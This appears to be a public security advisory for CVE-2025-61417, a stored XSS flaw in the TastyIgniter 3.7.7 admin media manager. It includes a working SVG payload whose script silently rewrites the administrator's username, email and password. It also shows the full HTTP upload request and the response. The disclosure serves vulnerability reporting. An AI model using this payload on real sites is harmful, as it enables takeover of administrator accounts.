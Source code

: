 # CVE-2025-61417 — Stored XSS (Cross-Site Scripting)

---

**Vulnerability Type:** Stored XSS leading to Account Takeover (ATO)  
**Product / Version:** TastyIgniter 3.7.7  
**Software Link:** [TastyIgniter](https://github.com/tastyigniter/TastyIgniter)   
**Affected Component:** `admin/media_manager` feature built into the application (upload image).  
**Severity:** ??  
**Disclosure status:** Public  
**Impact:** Exploitation can lead to full administrative account takeover (modify admin username, email, password).

---

## Description

A stored cross-site scripting (XSS) vulnerability exists in TastyIgniter 3.7.7, affecting the `/admin/media_manager` component. Attackers who can upload files may craft a malicious SVG file containing JavaScript. When an administrator previews the SVG in the admin interface, the embedded script executes within the admin's browser context. This allows the attacker to modify the admin account credentials, enabling full account takeover.

---

## Steps to Reproduce

1. Go to `http://127.0.0.1:8000/admin/media_manager` and upload a crafted `.svg` file containing a malicious script.
   
   Example SVG Payload:
   ```xml
   <svg xmlns="http://www.w3.org/2000/svg">
     <script><![CDATA[
       fetch("http://127.0.0.1:8000/admin/staffs/account?_method=PATCH&Staff%5Bstaff_name%5D=Hacked&Staff%5Bstaff_email%5D=hacked%40gmail.com&Staff%5Buser%5D%5Busername%5D=Hacked&Staff%5Blanguage_id%5D=1&Staff%5Buser%5D%5Bpassword%5D=123456&Staff%5Buser%5D%5Bpassword_confirm%5D=123456", {
         method: "GET",
         credentials: "include",
         headers: {
           "X-Requested-With": "XMLHttpRequest",
           "X-IGNITER-REQUEST-HANDLER": "onSave"
         }
       });
     ]]></script>
   </svg>

2. Once the malicious SVG is uploaded, an admin browses to the Media Manager and previews the file. The embedded JavaScript executes in the admin's browser context.
3. The script sends an authenticated `PATCH` request (with valid headers like `X-Requested-With` and `X-IGNITER-REQUEST-HANDLER`) to `/admin/staffs/account`, modifying the admin's username, email, name, and password.
4. This results in a full account hijack of the administrator without their knowledge.


## HTTP Request (To Upload the Malicious SVG)
```
POST /admin/media_manager HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
X-CSRF-TOKEN: KS9zbdPKPBt6IZIdC9rGqRwi8dYyy5AovnQ3B0oQ
X-IGNITER-FILEUPLOAD: mediamanager
Content-Type: multipart/form-data; boundary=----geckoformboundary572b120aaa61d256c4b644dd4c854b1a
Content-Length: 723
Origin: http://127.0.0.1:8000
Connection: keep-alive
Referer: http://127.0.0.1:8000/admin/media_manager
Cookie: <Cookie>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary572b120aaa61d256c4b644dd4c854b1a
Content-Disposition: form-data; name="path"
/ 
------geckoformboundary572b120aaa61d256c4b644dd4c854b1a
Content-Disposition: form-data; name="file_data"; filename="CSRF.svg"
Content-Type: image/svg+xml

<svg xmlns="http://www.w3.org/2000/svg">
  <script><![CDATA[
    fetch("http://127.0.0.1:8000/admin/staffs/account?_method=PATCH&Staff%5Bstaff_name%5D=HackedStaff&Staff%5Bstaff_email%5D=hacked%40gmail.com&Staff%5Buser%5D%5Busername%5D=HackedStaff&Staff%5Blanguage_id%5D=1&Staff%5Buser%5D%5Bpassword%5D=123456&Staff%5Buser%5D%5Bpassword_confirm%5D=123456", {
      method: "GET",
      credentials: "include",
      headers: {
        "X-Requested-With": "XMLHttpRequest",
        "X-IGNITER-REQUEST-HANDLER": "onSave"
      }
    });
  ]]></script>
</svg>
------geckoformboundary572b120aaa61d256c4b644dd4c854b1a--

```

## HTTP Response (On Successful Upload)
```
HTTP/1.0 200 OK
Host: 127.0.0.1:8000
Date: Wed, 16 Jul 2025 08:10:42 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Cache-Control: no-cache, private
Content-Type: application/json

{
  "link": "\/\/CSRF.svg",
  "result": "success"
}

```



